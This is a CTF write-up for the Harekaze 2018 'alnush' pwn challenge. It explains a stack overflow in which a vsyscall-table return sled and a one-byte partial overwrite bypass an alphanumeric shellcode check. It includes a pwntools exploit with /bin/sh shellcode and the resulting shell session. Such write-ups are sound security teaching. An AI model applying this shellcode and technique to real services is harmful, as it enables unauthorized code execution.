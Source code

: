 ```yaml
---
layout: post
category: Pwn
title: Harekaze CTF 2018 alnush
tags: 
    - kowu
---
```


We had a x64 service wich allowed us to upload and execute shellcode. So far so good, but only alphanumeric shellcode was allowed. So just put in some premade code and we are done? Nah. It's not that easy. The mempage where the shellcode gets executed later is marked as read and execute only, all of the alphanumeric shellcodes I found required it to be writeable as well so they can decode themselves. Now one could get the idea of jumping to mprotect first, and then perform further exploitation. I did not. I don't even know if that was possible with the limited instructionset. In fact I solved the challenge without writing any alphanumeric shellcode at all, but by tricking the server into accepting (nearly) every shellcode.


If we look at the server it has a straightforward to spot bufferoverflow when entering shellcode. And there are also no stack canaries. So a simple ropchain? Sadly PIE was enabled. So the only chance we have is jumping to one position once by partially overwriting a ret pointer. For a better understanding a picture of the codeflow.

![m1](/assets/img/harekaze_alnush.png)

1 and 2 are the normal returns, ? is where I want to ret to, bypassing the strlen check on the shellcode input, effectively making it useless. For this to work I need to:
- get rax = 0 (or just small)
- fix the stack (so the local arguments match)

How can I do this without having anything reliable to return to? There is one last memory region without ASLR! The vsyscall table. And we can use it to pop off the stack AND to get rax = 0! For this to work at least rdi must point to a writeable address. In our case this condition was met. So all we need to do is:
- pop 4 qwords off the stack by repetitively returning into the vsyscall table
- overwrite the second ret address with one byte (0x4d).
- profit

![m2](/assets/img/harekaze_alnush2.png)

As a bonus we even get a more reliable exploit as we only need to overwrite one byte and don't have to mess with aslr at all. There is only one last restricion, as a strcpy like function was used to copy the shellcode onto the heap, nullbytes and newlines are forbidden characters. Acceptable constraints :)

```python
from pwn import *

r = remote("problem.harekaze.com", 20003)

def pwn():
    r.recvuntil("Enter shellcode >> ")
    sh = "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb" \
         "\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"
    r.send(sh + "X" * (0x208 - len(sh)) + struct.pack("<Q", 0xffffffffff600000) * 4 + struct.pack("B", 0x4d))
    r.interactive()


if __name__ == '__main__':
    pwn()

```
and finally

```
[x] Opening connection to problem.harekaze.com on port 20003
[x] Opening connection to problem.harekaze.com on port 20003: Trying 163.43.29.129
[+] Opening connection to problem.harekaze.com on port 20003: Done
[*] Switching to interactive mode
OK!
$ whoami
alnush
$ ls /home/alnush/
alnush
flag
$ cat /home/alnush/flag
HarekazeCTF{u_ex3cuted_alph4numeric_shellc0de!!!}
```

Wut? `u_ex3cuted_alph4numeric_shellc0de`? Unintended solution? Was there a way to solve this challenge only using alphanumeric chars as well? Why was there an obvious overflow then?
